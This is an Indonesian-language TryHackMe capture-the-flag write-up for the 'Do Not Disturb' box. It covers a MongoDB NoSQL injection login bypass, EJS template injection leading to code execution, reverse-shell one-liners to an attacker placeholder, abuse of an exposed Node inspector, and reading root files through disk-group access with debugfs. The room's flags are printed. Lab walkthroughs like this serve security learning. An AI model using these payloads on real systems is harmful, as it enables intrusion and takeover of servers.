






# Do Not Disturb — TryHackMe Writeup

**Target:** Do Not Disturb  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Kategori:** Web, NoSQL Injection, SSTI, Privilege Escalation

---

## Recon

Langkah pertama adalah melakukan port scanning untuk mengidentifikasi service yang berjalan pada target.

```bash
nmap -T4 -Pn -p- --min-rate 5000 <TARGET_IP>
```

```
22/tcp open  ssh
80/tcp open  http
```

Setelah mengetahui hanya ada dua service yang terbuka, dilakukan scan lanjutan untuk melakukan fingerprint terhadap service tersebut.

```bash
nmap -sC -sV -T4 -p22,80 --min-rate 5000 <TARGET_IP>
```



Port 80 menjalankan aplikasi berbasis **Node.js (Express)**. Saat diakses melalui browser, aplikasi langsung menampilkan halaman login tanpa informasi lain yang menarik.

---

## Web Enumeration

Karena seluruh fitur aplikasi tampaknya berada di balik autentikasi, langkah berikutnya adalah melakukan directory fuzzing untuk mencari endpoint lain yang mungkin dapat diakses tanpa login.

```bash
ffuf \
-w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt \
-u http://<TARGET_IP>/FUZZ \
-recursion \
-recursion-depth 3 \
-fc 404 \
-e .js,.json,.txt
```

Hasil yang ditemukan cukup minim.

```
logout   [302]
staff    [403]
```

Endpoint `/logout` hanya melakukan redirect kembali ke halaman utama, sedangkan `/staff` mengembalikan status **403 Forbidden** yang menandakan endpoint tersebut memang ada, tetapi membutuhkan autentikasi.

Karena `/staff` merupakan satu-satunya endpoint menarik yang ditemukan, enumerasi dilanjutkan ke dalam direktori tersebut.

```bash
ffuf \
-w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt \
-u http://<TARGET_IP>/staff/FUZZ \
-recursion \
-recursion-depth 3 \
-fc 404 \
-e .js,.json,.txt
```

Namun hasilnya tetap tidak menemukan endpoint tambahan maupun file menarik. Setelah mencoba enumerasi lain seperti VHost fuzzing, SQLMap, Nuclei, serta inspeksi request menggunakan proxy, tidak ditemukan attack surface lain yang dapat dieksploitasi. Fokus kemudian beralih ke mekanisme autentikasi pada halaman login.

## Authentication Bypass — NoSQL Injection

Karena seluruh proses enumerasi tidak menemukan endpoint lain yang dapat dieksploitasi, fokus dialihkan ke mekanisme autentikasi. Aplikasi menggunakan **Node.js (Express)**, sehingga selain SQL Injection, NoSQL Injection juga menjadi salah satu kemungkinan yang perlu dipertimbangkan.

Payload berikut dicoba pada parameter `password`.

```text
username=attendant&password[$ne]=1
```

`$ne` merupakan operator MongoDB yang berarti **Not Equal**. Jika aplikasi langsung menggunakan input user sebagai query tanpa validasi, maka kondisi tersebut akan diterjemahkan menjadi:

```javascript
{
  username: "attendant",
  password: { "$ne": "1" }
}
```

Artinya aplikasi akan mencari user `attendant` dengan password yang **bukan** `"1"`. Karena password asli hampir pasti berbeda dari nilai tersebut, proses autentikasi berhasil dilewati.

Request menggunakan `curl`:

```bash
curl -i -c cookie.txt \
-X POST http://<TARGET_IP>/login \
-d "username=attendant&password[\$ne]=1"
```

Response yang diterima:

```http
HTTP/1.1 302 Found
Location: /staff
Set-Cookie: connect.sid=...
```

Munculnya `connect.sid` menandakan bypass berhasil dan aplikasi membuat session baru untuk user `attendant`.

Session tersebut kemudian digunakan untuk mengakses halaman staff.



---

## Server-Side Template Injection (SSTI)

Setelah berhasil masuk ke halaman staff, ditemukan fitur untuk mengubah template konfirmasi booking.



Keterangan tersebut menunjukkan bahwa aplikasi menggunakan **EJS (Embedded JavaScript Templates)** sebagai template engine dan menerima template langsung dari user. Kondisi ini mengindikasikan potensi **Server-Side Template Injection (SSTI)**.

Sebagai validasi awal, dicoba payload sederhana.

```ejs
<%= 7*7 %>
```

Jika hasil preview menampilkan:

```
49
```

berarti template benar-benar dievaluasi oleh server sehingga SSTI dapat dipastikan berhasil.

Karena EJS menjalankan JavaScript di sisi server, payload dapat diperluas menjadi Remote Code Execution dengan memanfaatkan modul `child_process`.

```ejs
<%= global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/9004 0>&1"') %>
```

Sebelum mengirim payload, listener dijalankan pada mesin attacker.

```bash
nc -lvnp 9004
```

Payload kemudian dikirim melalui form **Confirmation template** dan tombol **Preview** ditekan.

Beberapa saat kemudian koneksi berhasil diterima.



Initial foothold berhasil diperoleh sebagai user:

```text
poolside
```

## Privilege Escalation

Setelah berhasil mendapatkan RCE, shell yang didapat masih berada pada user **poolside**.

```bash
whoami
poolside
```

Selanjutnya dilakukan enumerasi proses yang sedang berjalan.

```bash
ps aux | grep -E "node|pipeline"
```

Terlihat terdapat service Node.js lain yang berjalan sebagai user **pipelinesvc** dengan mode **Node Inspector** aktif.

```text
pipelinesvc 597 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

Node Inspector digunakan developer untuk melakukan debugging terhadap proses yang sedang berjalan. Karena debugger tersebut terbuka pada localhost, kita dapat melakukan attach ke proses tersebut.

```bash
node inspect 127.0.0.1:9229
```

Setelah berhasil attach, setiap JavaScript yang dijalankan melalui debugger akan dieksekusi **di dalam proses `processor.js`**, sehingga perintah tersebut berjalan menggunakan hak akses user **pipelinesvc**, bukan lagi user **poolside**.

Sebagai pembuktian, dijalankan perintah berikut:

```javascript
process.mainModule.require("child_process").execSync("id").toString()
```

Output menunjukkan bahwa command dieksekusi sebagai user **pipelinesvc**.

```text
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

Kemudian digunakan reverse shell agar memperoleh shell interaktif sebagai user **pipelinesvc**.

```javascript
process.mainModule.require("child_process").exec('bash -c "bash -i >& /dev/tcp/ATTACKER_IP/9005 0>&1"')
```



---

## Disk Group Abuse

Setelah memperoleh shell sebagai **pipelinesvc**, dilakukan enumerasi permission user.

```bash
id
```

Terlihat bahwa user tersebut merupakan anggota group **disk**.

```text
groups=995(pipelinesvc),6(disk)
```

Selanjutnya dilakukan pengecekan block device.

```bash
lsblk

ls -l /dev/nvme*
```

Terlihat bahwa group **disk** memiliki akses baca terhadap partisi root.

Karena proses mount membutuhkan hak akses root, digunakan utilitas **debugfs** untuk membaca filesystem secara langsung dari block device.

```bash
debugfs /dev/nvme0n1p1
```

Di dalam debugfs, file flag dapat dibaca secara langsung.



```text
cat /root/root.txt

THM{r4w_d1sk_4cc3ss_w4s_t00_much}
```

Sebagai verifikasi, user flag juga dapat dibaca menggunakan metode yang sama.

```text
cat /home/poolside/user.txt

THM{w4rm_s3ss10n_h1j4ck3d}
```

